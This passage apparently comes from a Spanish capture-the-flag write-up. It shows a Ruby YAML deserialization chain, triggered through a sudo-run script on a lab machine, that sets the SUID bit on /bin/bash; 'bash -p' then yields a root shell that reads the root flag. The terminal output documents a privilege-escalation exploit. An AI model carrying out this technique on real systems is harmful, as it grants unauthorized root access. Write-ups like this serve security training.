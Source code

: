 Modifico la bash a SUID

```null
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Puedo ver la segunda flag

```null
henry@precious:~$ bash -p
bash-5.1# cat /root/root.txt 
8159c92d7e968723fd77348a5b14217e
```